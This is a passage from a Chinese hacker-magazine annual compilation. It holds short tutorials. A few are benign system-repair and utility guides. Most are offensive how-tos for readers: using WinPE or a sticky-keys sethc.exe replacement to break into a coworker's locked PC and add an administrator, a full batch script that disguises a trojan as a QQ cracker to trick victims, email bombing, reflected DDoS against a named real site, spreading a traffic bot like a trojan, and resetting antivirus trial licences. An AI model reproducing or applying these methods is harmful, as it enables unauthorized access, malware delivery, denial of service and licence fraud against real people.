这时我们在解压缩的时候就不能双击自解压程序了，应该在右键菜单中选择“解压到当前文件夹”，这样就不会执行自解压命令了。注意，叉子在参照本文进行试验时，一定要严格按照每一步设置进行操作，以确保删除的文件仅限于做测试的文件夹，否则因操作失误而误删除了一些重要文件的话，那可就得不偿失了，因此请大家一定要慎重！

### 系统问题，WinPE 帮你搞定

evil eagle

WinPE 是什么？WinPE，也就是 Windows 预安装环境（Windows Preinstallation Environment），基于在保护模式下运行的 Windows XP 个人版内核，是一个只拥有较少（但是非常核心）服务的 Win32 子系统。WinPE 就相当于一个简化过的 Windows XP 系统，那么它都能干什么呢？大家先别急，我来慢慢的告诉大家。

我们首先下载一个 WinPE，在网上有很多 WinPE 的修改版，我建议大家下载使用老毛桃修改版，我下载的是深度的 USB 启动维护盘制作工具，它集成了老毛桃版的 WinPE，这个版本的好处就在于可以方便的制作出能引导电脑的 U 盘，这样即使你的电脑没有硬盘，使用 U 盘也可以启动到 U 盘里的 WinPE 系统。

在介绍 WinPE 的功能前我们先来看一下需要的准备工作：需要一个 128M 以上的 U 盘，运行我们下载的 USB 启动维护盘制作工具，按照提示进行安装，如图 1。安装完毕后，我们运行刚才安装的 USB 启动维护盘制作工具，如图 2。


启动后的界面如图 3 所示，把 U 盘插到电脑上，点击“启动 U 盘专用 USB-HDD 模式格式化工具”，就会弹出如图 4 所示的一个界面，直接点“开始”按钮后程序就会自动把 U 盘格式化成可引导的 U 盘了（注意是格式化哦，U 盘里的东西会被全部删掉的，别忘了备份）。我们返回到主界面点击“已经准备完毕，继续下一步”，弹出了如图 5 所示的界面，点击“开始制作”按钮，完毕后我们就有了属于自己的可引导电脑的 U 盘了。


#### 一、破解系统密码

相信许多小菜都遇到过忘记系统登录密码的情况，尤其是忘记了Administrator帐号的密码，连安全模式都无法进入，还有时候我们想使用别人的电脑，但却发现电脑设置了登录密码，而我们又不知道，这该怎么办呢？请出我们的主角WinPE，首先把U盘插到电脑上，在电脑启动时按F8进入CMOS设置菜单，将电脑设置成从USB-HDD引导进入（每个主板的情况可能不太一样，小菜们请参照着自己主板的说明书来进行设置），这样电脑就会先从我们的U盘启动了，如图6。我们选择启动WinPE维护系统，然后就可以进入WinPE系统了，界面很简洁吧，如图7。运行Windows密码修复工具，先选择好Windows系统的所在目录，然后在左侧选择要执行的操作，比如修改现有用户的密码或是新建一个管理员用户什么的都可以，如图8，选择好后点“应用”按钮就行了，重新启动系统，密码就已经被破解掉了。


#### 二、手杀病毒

很多情况下，我们查出了病毒是哪个文件，但是由于病毒采取了某种保护技术，使得其难以被删除，比如插入线程的DLL文件、无法结束病毒的进程等，甚至有些病毒在安全模式下也是可以启动的，对于这种情况，使用WinPE就是很好的选择了。我们同样启动到WinPE系统，然后直接从磁盘中找到那个病毒文件，选中后点右键，选择删除就可以了，清除病毒就是这么简单，另外我们还可以使用WinPE提供的注册表修改器修改本地系统的注册表，将病毒留下的残余信息删除掉。还有些病毒是注册成系统服务或者驱动的，这时我们还可以使用服务驱动管理，在运行时提示是否载入远程储存（HIVE），选择是，然后选择系统所在的目录，这时我们就可以查看本地系统的服务和驱动了，找到病毒留下的文件，删除后就行了。

有时，我们的系统确实需要重装，但是光驱却坏掉了，或者手头没有系统安装盘，只有光盘镜像，那要怎么重装系统呢？没关系，我们仍然可以使用WinPE，把光盘镜像文件解压到某个分区（c盘以外），然后运行我们U盘里的WinPE安装\安装.exe，选择普通安装，外部程序路径选择d：就行，等文件复制完毕后重启电脑，我们就会发现系统启动时除了Windows XP外还多了一个WinPE选项，选择从WinPE启动，这次进入的WinPE系统是在我们本地磁盘里的而非U盘中的系统，为什么一定要这样呢？我简单解释一下，Windows安装时会把引导信息写入第0个硬盘，如果从U盘启动，那么U盘就会被识别为第0个硬盘，这样引导信息就无法被写入到我们的硬盘中，下次启动时就无法从硬盘启动了。运行后将C盘格式化（知道为什么镜像文件不能存放在c盘了吧），然后运行WinPE的Windows安装助手，如图9，把该填的都填好，上面的那个安装文件目录就选择刚才镜像解压后的目录，点击“安装”，系统就会安装了。也许小菜们还有另外一个问题想问，为什么我们不直接在Windows XP下完成，而非要转到WinPE下呢？这是因为在Windows XP下C盘是无法格式化的，因为有很多程序在运行，而WinPE则不同，在运行时，WinPE是直接加载到内存中的，所以硬盘里的文件可以直接被删除掉，这也就是为什么要在WinPE下格式化C盘的原因。


#### 四、主引导记录修复

也许有小菜们曾经安装过Linux系统，但是在卸载的时候却碰上了大麻烦，因为把Linux所在的盘格式化后Windows也无法启动了，我先给大家简单介绍一下原理，硬盘一开始有一段叫主引导记录（MBR）的空间，里面存储了一段程序和分区信息，当系统启动时会把代码载入内存，然后执行，主引导记录里的代码负责选择要启动的系统，并运行该系统里的初始化程序，Linux系统在安装时会把MBR覆盖掉，而它的配置文件也在Linux的分区下，所以当Linux的分区被格式化后，配置文件不存在了，引导记录代码不知道该如何引导到Windows，所以自然也就无法进入系统了。

我们可以先使用WinPE启动电脑，然后在WinPE下进行修复，从U盘启动到WinPE，这里我们需要一个叫做MbrFix.exe的小程序，事先把它保存在U盘中，然后在WinPE下运行，输入命令MbrFix /drive 1 fixmbr /yes，这样主引导记录就会恢复成Windows的引导记录了，现在久违的Windows界面就会又回来了。

#### 五、备份 / 恢复系统

我们总不至于每次系统崩溃了就要重装一次系统吧，那样也太麻烦了，好在WinPE也提供了Ghost，有两个版本，分别是8.3和11，我们使用11的版本，启动Ghost后的界面如图10所示，如果我们要备份系统，就依次选择local->Partition->to image，然后选择系统所在的硬盘分区，并选择备份文件要储存的目录，接着就会有压缩提示，选择high（节省空间嘛），然后Ghost就会创建备份文件了。当我们需要恢复的时候，就依次选择local->Partition->from image，然后选择以前备份的文件，和要恢复的硬盘分区，Ghost就会为我们恢复系统了。使用Ghost恢复过的系统里是没有文件碎片的，当我们的系统分区碎片太多时也可以使用Ghost恢复一下，比碎片整理要快的多。


当然WinPE的功能还有很多，限于篇幅我就不多介绍了，还请大家自己去发现吧！

（本文所涉及到的USB启动维护盘制作工具、MbrFix.exe已收录到光盘中）

### 通杀Windows2000和2003的输入法

关于Windows系统的输入法漏洞，在黑客X档案上曾经不止一次的提到过了，这次我给大家带来的也是基于输入法的漏洞入侵，所不同的则是新的输入法和新的思路。提起这次的入侵，还有一个小故事呢。

本人最近新到了一家网络公司，由于是新来的，没有个人电脑使用，每次就只好蹭别人的电脑使用，趁对方不在的时候赶紧摸摸心爱的电脑。但是有一天对方给电脑添加了新的登录密码，害的我只能在边上看的份了，使用以前研究过的输入法本地提权也没有起效，按五下SHIFT键也是徒劳，切换输入法也只有那些默认的，根本就找不到任何突破的方法。

这天，那位同事突然有事要外出，但走的时候却把电脑锁住了，当时他走的太匆忙也不知道是碰到了哪个键，居然在屏幕的左下角出现了第三方输入法：极品五笔输入法，如图1。我看了下居然是最新版本的，记得以前的版本是有漏洞的，但这个却是最新的6.8版本，不知道还有没有漏洞，抱着试一试的态度我就开始了突破之旅。


点击输入法调出菜单，我在“帮助”下看到了“操作指南”和“使用技巧”这两项，如图2，点击“操作指南”，这下我兴奋了，大家看到图3中的那个“Internet选项”了吗？这里就是我的突破口。点击“Internet选项”后，我看到了熟悉的IE设置界面，因为我不知道哪些可以利用所以只好在里面瞎找，看有没有什么可以利用的，能够让我导出cmd.exe来添加用户的地方。

找了半天，终于打开了IE设置里的“辅助功能”选项，之前在基本IE设置里点遍了都没有找到。我们勾选上那个“用户样式表”，就会出现我们熟悉的“浏览”按钮了，如图4。


打开宝箱看看吧，宝藏就在里面。终于找到了我们熟悉的cmd.exe的目录，本以为就要成功了，可谁知宝箱里居然还有一个小箱子，当我在cmd.exe上点右键选择打开时，居然没有弹出那个黑色的运行界面，怎么搞的，为什么运行不了？我又尝试打开别的程序以试图调出cmd.exe，但都是无法运行要不就是无法找到报错，真是令人郁闷呀，下班的时间不等人，就这样我只好无奈的回家了。

在回去的路上我苦思冥想怀疑是因为权限不够造成的，要


## 傻瓜黑客 2008合订本下卷


不然怎么会运行不成功呢？既然都已经找到 cmd.exe 了，那离胜利也不会太远了。到家里就是对系统的一通折腾，首先研究如何才能切换出那个输入法，经过多次的测试，终于发现在 Windows 2000/2003 下可以使用 SHIFT+ALT 键调出来。按照前边的操作重新来到 cmd.exe 所在的目录下，解决无法运行 cmd.exe 的问题。

这次我决定换个思路，不直接运行 cmd.exe，而是使用按五下 SHIFT 键调出粘滞键的后门。接下来就是大胆的尝试了，不过使用这个方法的前提是必须要有重命名的编辑权限，否则就会无法替换文件的。编辑＋替换成功了，我把 cmd.exe 复制到了 system32 目录下，并改名为 sethc.exe，如图5。返回到登录界面，我狂喜的快速按了五下 SHIFT 键，调出我们重命名的 sethc.exe 文件，功夫不负有心人，我们熟悉的命令行终于弹出来了，如图6。剩下的操作就不用我多说了吧，添加一个管理员用户，尽情的享受喜悦吧！


### 纯手工忽悠木马攻略

在这个木马横行的网络时代，杀毒软件的更新总是将一批“老马”推死在沙滩上，同样一批“新马”刚出生想走得远点，可残酷的现实却总是将其扼杀在襁褓中。木马的成功运行一直是个令人头疼的问题，但如果我们偶尔动动脑筋的话也许会让其蒙混过关哦。

正常情况下木马只是一个 EXE 文件，现在就连小小菜都知道这是不能随便打开运行的，在文章的开始我向大家介绍一个有趣的现象，我们把任意的一个小软件（只有一个 EXE 的文件）进行双击打开，软件正常的打开了，如图1。

接着我们把它重命名为 1.RAR，在改名时系统会有提示，选择“确定”，如图2。接着再次双击该文件时就会发生错误提示信息，如图3。这是因为它的扩展名发生了改变而导致程序不能正常运行。


我们按 WIN+R 组合键打开“运行”栏，输入 CMD 打开命令提示符，进入到该文件所在的目录，输入文件名 1.RAR 后回车，奇迹出现了，软件又被正常的打开了，如图4。是不是很有意思呢？其实这里的文件名是可以随意更改的，也就是 *.* 格式了（*为任意字符），只要在命令提示符窗口中输入相应的路径与文件名就可以正常打开软件。如果我们把木马文件当成刚才的那个小软件，是不是就可以打造出属于我们自己的忽悠木马了。

1. 准备一个木马文件，我使用的是 KingHap.exe，把木马文件改名为 KingHap.rar，如果系统不显示文件的扩展名，我们可以到“工具”菜单的“文件夹选项”中把“隐藏已知文件的扩展名”前面的小勾去掉即可，如图5。


2. 打开记事本，输入以下代码，如图6：

```bat
@echo 欢迎使用最新QQ相册密码暴力破解(绿色自动安装版)
@pause
@echo off
start KingHap.rar
exit
```

接着将其保存为 *.bat，我为了迷惑别人而命名为“点我自动安装软件.bat”。


3. 把刚才的“KingHap.rar”和“点我自动安装软件.bat”这两个文件放到同一个文件夹中，点击右键，选择“添加到压缩文件”，如图7。


给生成的 RAR 文件取个具有迷惑性的名字，我取的是“最新QQ相册密码暴力破解(绿色自动安装版).rar”，把这个 RAR 文件发给别人，骗对方说是一个非常好的软件，此时这个 RAR 压缩包里只有“KingHap.rar”（其实就是木马了）和“点我自动安装软件.bat”这两个文件，当对方双击打开“KingHap.rar”时就会出现如上图3所示的情况，但看到旁边还有一个“点我自动安装软件.bat”，我想对方一定会打开的。打开后就会出现一个系统命令窗口，看到上边显示出来的那个安装提示信息，我想许多小菜肯定会相信的，如图8。只要他按了键盘的任意一个键，木马就会悄悄的运行了，并且这个窗口也会自动被关闭（一个 EXE 木马文件正常双击打开是没有任何提示的，也就不会出现对话框了，有的在运行后还会删除自身。这里我们双击 BAT 文件，也就相当于文章开始时在系统命令窗口中输入相应的命令来执行，只不过这样更具欺骗性）。


最后给大家解释一下代码中的命令：“echo”就是设置在系统命令窗口显示的文字；“pause”就是暂停命令，按任意键就会执行下面的命令；“@echo off”是执行命令时不会有任何显示；“start KingHap.rar”就是在打开该文件；“exit”就是执行完命令后自动关闭窗口。好了，大家就根据自己的实际情况，去动手打造一个属于自己的超级忽悠木马吧。

### 小菜也来学简单电子邮箱攻击及防范

梧桐 Lx

电子邮箱作为网络中非常重要的一种通讯交流方式，已经被越来越多的企业及个人用户广泛使用，既然这是一种重要的网络服务，那么也就一定会成为黑客攻击的目标，本文我们就学学简单的电子邮件攻击及其相应的防范。

电子邮件攻击，就是对一个或几个邮箱进行狂轰滥炸般的滥发邮件，使对方的电子邮箱不能正常使用，影响对方网络的稳定，从而达到攻击的目的，我们把这种邮件攻击形象的称为“邮件炸弹”。


我们要用到的工具就是“随心邮件炸弹v1.8”，程序的主界面如图1所示，首先在“DNS地址”中填入本机的DNS地址，如果不知道的话我们可以在CMD中使用“ipconfig /all”命令查看到，如图2。在左边的空白框中输入要发送的Email地址列表，这里可以输入多个Email地址同时发送，超时与发送次数可以自己定，邮件主题、发件人和邮件内容都可以随意填写，如图3。


图3


图2


图4


点击“发送”按钮后便开始发送邮件了，发送时的状态也会在主界面中显示出来，也就是会显示出总发送次数和已发送次数。发送完毕后，我们打开刚才设置的邮箱看看，果真收到了十封垃圾邮件，如图4。这里只是简单测试而已，如果攻击者真的向他人的邮箱疯狂发送垃圾邮件的话，那后果真的会不堪设想，甚至连对方邮件的正常接收都会成问题。

怎么样，操作够简单更傻瓜吧，只使用现成的软件就可以完成我们的攻击了，不过大家千万不要用来攻击他人，毕竟我们学黑不是来恶意攻击别人的。

知道了如何制造简单的邮件炸弹进行攻击，下一步就是如何防范了，毕竟安全还是第一，要不然自己也会成为别人的攻击目标。首先打开 Outlook Express，点击主界面上的“工具”，在弹出的下拉菜单中选择“邮件规则”——“邮件”，如图5，这时就会弹出“新建邮件规则”窗口，在“选择规则条件”中选择过滤方式，这里我们可以选择“在发件人行中包含用户”，在“选择规则操作”中选择对邮件的过滤方式，这里最好选择“不要从服务器中下载”或“从服务器中删除”，这时在规则描述框中会出现带下划线的“包含用户”，如图6，我们点击它，在出现的“选择用户”对话框中输入收到的垃圾邮件的地址，然后点击确定，如图7。这样，当再次发送垃圾邮件时，邮件就已经被过滤了。


当然，对于“邮件炸弹”的防范方法还有很多，比如使用 Foxmail 的邮件过滤器或者使用专业的垃圾邮件清除软件等，这里就不细说了。总之，我认为最重要的还是小菜们要有很强的网络安全意识，不要在网站或论坛上随意公开自己的邮箱地址，养成良好的上网习惯，这样才能做到真正的防范于未然。

（文章中涉及到的随心邮件炸弹v1.8已经收录在光盘中）

### 教菜鸟编写批处理无限使用卡巴斯基

饕餮


卡巴斯基绝对是杀毒软件中的精品，深受菜鸟们的喜爱，可是卡巴斯基官方却大量封杀 key，使得我们这些没钱安装正版的小菜欲哭无泪！网上流传的删除注册表项来无限使用的方法实在是太麻烦了，于是小菜我就编写了这个菜鸟级的批处理文件，该工具适用于卡巴斯基6.0和7.0版，下面就是批处理的内容：

```bat
@echo off & reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\KasperskyLab\LicStorage" /f
@echo off & reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography\RNG" /f
@echo off & reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\SPC\Certificates" /f
@echo 命令成功：谢谢使用———饕餮
pause
```

新建一个 txt 文本文件，将以上的命令复制粘贴进去，把文件名扩展名改为 bat 格式，我们的卡巴斯基无限激活工具就制作好了！下面简单介绍一下以上命令的意思。

批处理就是系统命令的大集合，这里真正有用的命令只有三行：

```bat
@echo off & reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\KasperskyLab\LicStorage" /f
@echo off & reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography\RNG" /f
@echo off & reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\SPC\Certificates" /f
```

“@echo off”的意思就是接下来的一行命令不显示，reg 是系统命令中操作注册表的命令，“reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\KasperskyLab\LicStorage"”就是删除注册项 HKEY_LOCAL_MACHINE\SOFTWARE\KasperskyLab\LicStorage，加上“/f”参数则是不询问用户而直接删除的意思，最后的 pause 不用多说了吧，表示暂停！


工具的使用方法如下：

1. 关闭卡巴斯基（注意是全部关闭，否则可能会出错的，方法就是勾选掉服务里的“启用自我保护”，然后再关闭卡巴斯基）
2. 直接双击运行“卡巴斯基激活.bat”，如图1。
3. 重新启动卡巴斯基，激活30天试用，如图2，等30天试用期快满的时候重复以上操作就可以无限的使用了。

### 映像劫持制作 CMD 加密器

BaseNet

大部分的 CMD 加密器都是对 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor 下的 Auto 键值进行设置，当 CMD 运行的时候首先执行一个密码验证才行。来看一个我以前编写的批处理文件：

```bat
@echo off
cls
:begin
echo 请输入运行密码
set /p password=
echo "%password%"|findstr "lovebaobao"
if "%errorlevel%"=="0" echo 密码正确 &goto end
echo 密码错误&goto begin
:end
set password=>nul
set errorlevel=>nul
echo 你成功登录系统
```

将这个文件保存为 1.bat，执行后的结果如图1所示，似乎没什么错误之处，但是如果我们分别输入 1、2、3、4、5、6 个 `"` 你就会看到不一样的结果了，如图2。当我们输入奇数个的引号时，批处理会提示错误并同时会将密码 lovebaobao 显示出来，当我们输入偶数个的引号时候系统就会出现正常的提示错误，这也就说明了 echo 命令的一个特点，当输入字符 `"`（引号）为奇数的时候，则显示横行，当输入字符 `"`（引号）为偶数的时候则执行 `"` 字符后面的命令！所以我们需要换一种更安全的方法，编辑如下代码：


图1

```bat
@echo off
:begin
set /p a=请输入密码
if %a%==hacker (goto test) else goto error
:test
goto end
:error
echo 密码错误&goto begin
:end
echo 密码正确，登录成功
```

使用这样的代码就可以比较好的避开上面的问题了。上面的方法不管我们怎么更改代码，它的本质还是靠注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor 下的 Auto 键值，我们只要随便编写一个注册表文件，直接覆盖掉注册表中的值就可以揭开所谓的“锁”了，另外这种方法已经成为了很多人都知道的“秘密”。只有与时俱进的东西才具有生命力，看下面的方法，首先使用 VC 简单的编写一个 MFC 程序 test.exe，将其保存为 c:\test.exe，程序运行后的结果如图3所示。程序代码我已经收录在光盘中，大家根据需要设置账户和密码，默认的账户为 hacker，密码为 123，本来想把 CMD 制作成一个资源文件直接添加到程序中，但是后来觉得不如直接运行另一个 CMD 程序，首先将 %systemroot%\system32 下的 cmd.exe 复制到其它目录，重命名为 air.exe（如果不对源代码进行修改就请确保名字为 air.exe），然后再将 air.exe 复制到 %systemroot%\system32 目录下，然后我们编写如下的注册表文件。


图2


图3

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\cmd.exe]
"debugger"="c:\\test.exe"
```

将文件保存为 cmd.reg，双击导入注册表，这样只要我们运行 CMD，系统就会提示让我们输入帐户和密码，是不是非常方便呢，很多东西都是一把双刃剑，映像劫持用于病毒启动可以杀人于无形，用于安全依然功能强大、造福黑友！

（本文所涉及到的源码已收录到光盘中）

### 也来刷百度空间流量的好工具 —— 百度无名访客

吾有型


图1

这天在网上淘宝无意间发现了一款可以“刷”百度空间流量的好东东，特写出来与大家分享，这个好东西就是 —— “百度无名访客”。双击运行主程序，其界面如图1所示，在“空间地址”处填上你的百度空间地址，下面的功能选项可以随便选择，建议全都选上，有助于传播嘛！如果勾选上“自动压缩”的话会加一个 FSG 的壳。点击“生成访客”按钮，就会在同目录下生成一个 Come.exe 的文件，它只有 36K 大小，我们可以像传播木马一样来传播它，而且它是绝对不会被杀杀的。

通过 QQ 通信，捆绑等都可以，当别人运行后就会在后台自动访问你的百度空间了，叉子们赶快去体验一下吧！最后希望大家在网上淘到什么好东西都可以拿到 X 上来分享，祝大家好运！

（本文所涉及到的百度无名访客已收录到光盘中）

### NOD32 也刷半年激活码

林中闲人（胥忠亮）

ESET NOD32 杀病毒软件就不用我多说了吧，它在国际网络安全行业中享有极高的声誉，最近 NOD32 联合 360 安全卫士推出了 360 专版，可以免费试用半年。免费试用的激活方法和卡巴斯基一样，都是通过激活码进行激活的。想当初卡巴的激活码大家也没少刷吧，我们今天就来刷 NOD32 半年的激活码。


图1


图2


图3


图4

1. 首先打开 http://tq.360.cn/trail-c.html 获取激活码页面，如图1，这个页面是通过安装 360 专版得到的，我们输入验证码后就可以得到激活码了，如图2。

2. 来到 X:\Documents and Settings\你的用户名\Cookies（X 为你系统所在的盘符）目录，找到 `administrator@tq.360[1].txt` 并删除，如图3。

我们也可以按以下步骤进行，打开 IE 浏览器，选择工具 -> Internet选项 -> 常规 -> 删除 Cookies，如图4，使用这种方法是删除所有的 Cookies，我们浏览的其它网站的 Cookies 也将会被删除。

3. 重新打开刚才的获取激活码页面，重复上面的步骤就可以又获取一个新的激活码了。

### 巧借网站制作邮箱炸弹

zhongke08

没事闲逛网站，发现很多网站的某些功能如果能够充分利用起来的话将是个很好的武器，下面我就介绍一下如何利用网站来制作邮箱炸弹。

首先打开“快斗”网站 http://shutter.cdream.com/ ，然后点击“申请 Shutter 号”进入注册页面，如图1。填写好注册资料，不过这里大家需要注意一下，此处的电子邮件填写的不是你自己的电子邮件而是你要攻击的邮箱，点击“提交帐号申请”进入到一个页面，如图2。

到了这里聪明的叉子一定会发现什么了吧？我们就是利用激活邮件来攻击别人的，大家可以不停的点击“未收到邮件 再发送”。


图1


图2


发一次”，这样对方就会不停的收到邮件了，如图 3。我点了没几下，大家看我用来测试的邮箱中就收到了 36 封邮件，如图 4，这样是不是就相当于一个邮件炸弹呢？


### 菜鸟跟我一起来初识 DRDoS

西决（吴岸）

相信小菜们对于拒绝服务攻击并不陌生吧，这次我要为大家介绍的是 DRDoS，没错，它不是 DDoS，而是 DRDoS。DRDoS 即英文 “Distributed Reflection Denial of Service Attack” 的缩写，中文意思就是“分布式反射拒绝服务攻击”。可能有许多小菜还不太明白，不要心急，下面我就来简单阐述一下它的原理。

DRDoS 是通过发送带有受害者 IP 地址的 SYN 连接请求包给攻击主机 BGP，然后再根据 TCP 三次握手的规则，这些攻击主机 BGP 会向源 IP（受害者 IP）发出 SYN + ACK 包来响应这些请求，造成受害者主机忙于处理这些回应而被拒绝服务攻击，如图 1。

简单的说明之后大家是否还一头雾水呢？这里我再给大家举个例子，比如我以 A 的名义写信给“黑客 X 档案”编辑部，而编辑部的每一位编辑通过编辑部知道了此信，并且回复了此信。但信上的地址是 A 的，所以回信将指向 A 而不是写信的我。A 无缘无故的就收到了许多信件，很郁闷吧？相信许多细心的朋友已经发现了 DRDoS 与 DDoS 一个明显的不同之处，就在这个“A”上。“A”即为反射的意思，也正是此法的特点所在。

但也不是什么都可以随便拿上手的，反射源的好坏直接影响着我们攻击的效果。关键就在于反射源的选取，也就是上文所提到的攻击主机 BGP 的选取工作。给大家一些关于 BGP 的概念，BGP 是中介路由器支持的“边界网关协议”（Border Gateway Protocol），路由器使用 BGP 与它们的邻居进行即时的信息交流来交换它们的路由表，这是为了通知它们每个路由器可以在哪个 IP 范围内进行转交。BGP 的细节并不重要，每个良好连接的中介路由器都会接受它们某端口上的连接。换言之，任何一个 SYN 数据包到达一个网络路由器上后，都会引出一个该路由的 SYN/ACK 回应包来，从而利用了 BGP 的特性实现了反射放大洪水攻击。可能会有读者要说只要是 SYN 的主机都是可以作为反射源的。虽然如此，不过少了 BGP 的工序，我们的 Distributed Reflection Denial of Service Attack 也就等于退化了，失去了其本身很大一部分的功效。所以说反射源的选取是很关键、很重要的！

DRDoS 的威力是很强的，一些攻击者经常使用几百 MB 的带宽，然后通过借用中间主机反射就可以把攻击效果放大到数十 gigabytes，一个普通的网站能撑得了多久？所以我们要慎用才是！DRDoS 发动攻击可以不需要调用大量的傀儡机器，同时也可以很好的隐藏攻击者的行踪，这些我就不多说了。

既然 Distributed Reflection Denial of Service Attack 的威力这么强，相信小菜们早就迫不及待的想要试一试了吧。接下来我就给大家推荐一款 DRDoS 软件——Smart DRDoS，软件运行后的界面如图 2 所示，软件的功能及使用都非常简单，可以看到，此版本的 Smart DRDoS 能实现基本的端口扫描功能以及基本的 DRDoS 攻击。我用来演示的版本较低，所以其功能也比较少，界面也不太美观（当初发布时，作者技术也许还不太成熟）。我们在“受击域名”上填写想要攻击的网站域名，比如我填写的是 Yahoo 的网站域名，点击后边的箭头就可以将其转换为 IP 地址。在右下方填写有关反射源的参数，大家可以自由发挥了，在左边可以扫描一下端口，最后点击“DrDos 攻击”就可以了。因为作者使用的是循环攻击，所以初步测试会有假死的现象。这里我就不测试了，许多 DRDoS 工具的原理和方法都是大同小异的。


目前，在网络上也有一些工具提供，也不乏一些 GUI 软件，操作都比较容易，大家可以到一些可以信任的安全网站下载回来后感受一下。不过，我要提醒一下大家，可不要随意去攻击别人的网站哦，小心被警察叔叔请去喝茶，本文的目的仅是为了学习交流！

（本文所涉及到的 Smart DRDoS 已收录到光盘中）

### 用赛门铁克弥补 UAC 的不足之处

蜀国布衣

使用过 Vista 系统的用户都知道，Vista 系统的特色就是玻璃效果和 UAC，但 UAC 却是一个让人又爱又恨的功能，它在系统的安全防范上的确起到了很重要的作用，但是频繁的窗口弹出也让用户感到难以接受。好在赛门铁克发布的一款名为 Norton UAC Tool 的工具可以弥补 Vista 系统 UAC 功能上的很多不足之处，让 UAC 的运行显得更加的智能化。

#### 一、工具的安装

由于 Norton UAC Tool 本身是英文软件，因此我们可以从汉化新世纪上下载它的汉化版，然后在本地根据提示进行安装就可以了。安装的时候程序会询问用户是否启用系统的 UAC 功能，因为很多用户已经将这个功能关闭了，如图 1。安装完成后需要重新启动系统，重启后就可以正常的使用 Norton UAC Tool 了。这样就可以在杀毒软件失效的时候，对系统起到最后一道保护屏障的作用。


2. 如果用户可以肯定这个程序的安全性，那么点击“允许”按钮后程序就可以运行了。为了避免 Norton UAC Tool 重复的进行拦截，可以勾选上窗口中的“不要再询问我”选项。


由此可以看出，Norton UAC Tool 和 Vista 中的 UAC 功能一样，自身也有着不同的提示等级。首先运行的程序有安全认证，并且处于系统的保护目录中，这类基本属于 Windows 自带的程序，其次是运行的程序有安全认证，但是并没有处于系统的保护目录中，这种一般都属于大公司发行的软件程序，再就是运行的程序没有安全认证，同时也没有处在系统的保护目录中，那么很可能就是共享软件或恶意程序。当然并不是属于这三类的就会被拦截，比如属于第一种情况的时候，运行注册表编辑器也是会被拦截的，因为它的修改可能影响到系统的安全，如果运行记事本程序它就不会被拦截。而同样属于第三种情况下，运行压缩软件 WinRAR 也是不会被拦截的，而运行 Vista 优化大师则会被拦截。之所以会出现这样的情况，是因为软件自带的“白名单”造成的，Norton UAC Tool 将收集用户的选择情况，以及那些造成跳出提示的应用软件的信息，这些数据会被加进白名单中，从而使软件的白名单更全面。

#### 二、拦截智能化

Norton UAC Tool 虽然目前还处于测试阶段，但是它已经能够自动接管 Vista 中的 UAC 功能了，以前当用户运行应用软件的时候，Vista 的 UAC 功能会跳出很多提示，许多用户根本不看提示就直接跳过了。而 Norton UAC Tool 一旦得到了用户第一次的同意，以后它便会在后台自动允许同样的操作。赛门铁克就是想利用不需要提示的工具来取代 Vista 系统的 UAC，这样用户既可以从 UAC 中受惠又可以减少与 UAC 的互动。比如当我们运行注册表编辑器时，Norton UAC Tool 则对其进行了拦截，从窗口中可以看到程序进行拦截的理由，因为该工具处于“Microsoft Windows 的数字签名”和“在保护的目录中”，如图

（本文所涉及到的 Norton UAC Tool 已收录到光盘中）

#### 三、弥补不足之处

Norton UAC Tool 除了可以让 UAC 显得更加智能化外，还可以弥补 UAC 自身很多的缺陷。比如用户同意 UAC 执行一个捆绑文件后，因为系统默认的 UAC 功能有权限的延伸性，所以捆绑在其中的病毒木马就顺理成章的获得了同样的管理员权限，这样木马病毒程序就可以轻而易举的突破 UAC 的拦截，而在安装 Norton UAC Tool 以后，无论是捆绑文件还是其释放的任何文件，在运行的时候都会被程序按照要求进行判断，一旦发现不明文件也会及时的进行提示。

### 你的个人移动虚拟 PC Prayaya V3

txcbg


在网吧上网的小菜一定遇到过以下的烦恼吧：

- QQ 的聊天记录不方便保存（你是 QQ 会员除外）
- 网吧中没有安装的软件在下载安装后，下次再来上网时还需要重新下载安装
- 发现的一些好网址没办法保存，个人文档设置也没办法保存

现在 Prayaya V3 来了，上面的那些烦恼就可以统统的抛弃了，Prayaya V3 是什么？Prayaya V3 是一个“绿色迷你的 Windows”，是一个虚拟的 Windows 系统，它可以实现在任何非 Windows 系统分区，比如 U 盘、移动硬盘、mp3、mp4 等移动设备上安装大量的应用程序，当你重装系统或者需要在其它计算机上运行已经安装过一次的程序时，就不需要在这些计算机上重复安装这些应用程序了，并且以前的所有数据（收藏夹、cookie、历史记录、聊天记录、网络电话记录、邮件）都会完全保留。我们只需要在任意 Windows（Win2000、XP、Vista）上启动 Prayaya V3，就可以使用安装在 Prayaya V3 上的应用程序了。

在你 USB 设备上的 Prayaya V3 软件可以让你像在自己的电脑上使用软件一样，你的应用软件、数据和用户设置都将保存在可移动存储设备上，当从电脑上正常退出 Prayaya V3 和可移动存储设备时，不会在你使用的电脑上留下任何私人信息，对于那些经常在网吧上网的用户非常方便。有了 Prayaya V3，就相当于有了自己的移动 pc，可以像使用自己的专属 pc 一样来保存自己的东西了。

我们首先从http://www.onlinedown.net/soft/63685.htm 下载最新版的 Prayaya V3，下载后双击运行开始安装，一路点击“下一步”就来到了选择安装磁盘的地方，如果你提前在电脑上插上了移动存储设备，不用担心，安装程序会自动识别出来的，如图 1。


为了以后方便使用，我选择安装到了 U 盘上，点击“下一步”，就开始向 U 盘安装文件了，安装完毕后直接点击桌面上的 Prayaya V3 快捷方式或者直接点击安装在 U 盘根目录下的StartV3.exe 就可以启动 Prayaya V3 了，第一次启动时会弹出提示注册的对话框，我们选择继续试用（如果想注册的话大家可以在网上找到注册码），启动后的默认界面如图 2 所示。点击“设置”，然后选择“安全”选项，为了能保存自己的数据和用户设置，把临时文件夹位置设置为“存放到V3”，为了增加安全性，还可以设置保护密码，如图 3。


